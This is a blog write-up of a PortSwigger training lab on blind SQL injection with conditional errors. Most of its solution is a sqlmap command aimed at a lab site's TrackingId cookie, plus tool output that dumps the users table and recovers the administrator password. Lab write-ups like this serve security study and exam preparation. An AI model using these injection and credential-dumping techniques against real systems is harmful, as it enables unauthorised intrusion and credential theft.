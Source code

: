 ```yaml
---
author: Nithissh S
pubDatetime: 2024-09-10T15:22:00Z
modDatetime: 2024-09-10T09:12:47.400Z
title: Blind SQL injection with conditional errors
slug: sqli-portswigger-lab-12
featured: false
draft: false
tags:
  - BSCP
  - SQL Injection
description:
  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.   
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

Like the previous lab, This is same way to exploit through a cookie value where the `TrackingId` is vulnerable to SQLi and It uses an `Oracle` database 

```sh
 ✘ nits@FWS-CHE-LT-8869  ~/Workspace/Personal/blog   main  sqlmap -u "https://0a6b00b104f31bcf80063aa500500058.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" -p "TrackingId" --level 2 --threads 5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:36:24 /2024-09-22/

[11:36:24] [INFO] testing connection to the target URL
[11:36:25] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
[11:36:31] [INFO] target URL content is stable
do you want to URL encode cookie values (implementation specific)? [Y/n] n
[11:36:34] [WARNING] heuristic (basic) test shows that Cookie parameter 'TrackingId' might not be injectable
[11:36:35] [INFO] testing for SQL injection on Cookie parameter 'TrackingId'
[11:36:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:37:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[11:37:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[11:37:24] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[11:37:49] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[11:38:05] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[11:38:14] [INFO] Cookie parameter 'TrackingId' appears to be 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)' injectable (with --code=200)
```

While dumping the database, we found `administrator` credentials 

```sh
[11:48:19] [INFO] fetching entries for table 'USERS' in database 'PETER'
[11:48:19] [INFO] fetching number of entries for table 'USERS' in database 'PETER'
[11:48:19] [INFO] retrieved: 3
[11:48:23] [INFO] retrieving the length of query output
[11:48:23] [INFO] retrieved: 
[11:48:25] [INFO] retrieved:  
[11:48:36] [INFO] retrieving the length of query output
[11:48:36] [INFO] retrieved: 20
[11:49:03] [INFO] retrieved: p2vmu5h7blpqnvt10fs8             
[11:49:03] [INFO] retrieving the length of query output
[11:49:03] [INFO] retrieved: 13
[11:49:23] [INFO] retrieved: administrator             
[11:49:23] [INFO] retrieving the length of query output
```

Now login with those credentials and lab is solved 

![](../../assets/images/bscp/sqli/sqli50.png)